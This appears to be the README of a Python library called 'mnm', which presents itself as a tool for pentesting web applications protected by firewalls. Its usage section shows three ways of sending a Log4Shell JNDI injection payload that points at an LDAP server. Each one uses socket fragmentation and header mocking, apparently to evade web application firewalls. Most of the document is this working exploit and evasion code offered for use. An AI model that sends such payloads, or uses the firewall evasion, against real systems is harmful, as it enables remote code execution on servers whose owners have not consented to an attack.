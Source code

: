 # mnm

This is a simple python library for pentesting firewall protected webapp.

## Installation

```bash
pip install mnm
```

## Usage

```python
from mnm import *
import requests

@mixed(SocketFragmentation(slice=5), HeaderMocking())
def mixed_options(ip):
    r = requests.get(f'http://{ip}/log', data={
        "log": "${jndi:ldap://localhost:1389/Basic/BinaryInj#z}"
    })
    print(r.text)

@mixed()
def mixed_simple(ip):
    r = requests.get(f'http://{ip}/log', data={
        "log": "${jndi:ldap://localhost:1389/Basic/BinaryInj#z}"
    })
    print(r.text)

def with_pattern(ip):
    with SocketFragmentation(slice=5), HeaderMocking():
        r = requests.get(f'http://{ip}/log', data={
            "log": "${jndi:ldap://localhost:1389/Basic/BinaryInj#z}"
        })
        print(r.text)
```

## License

MIT License
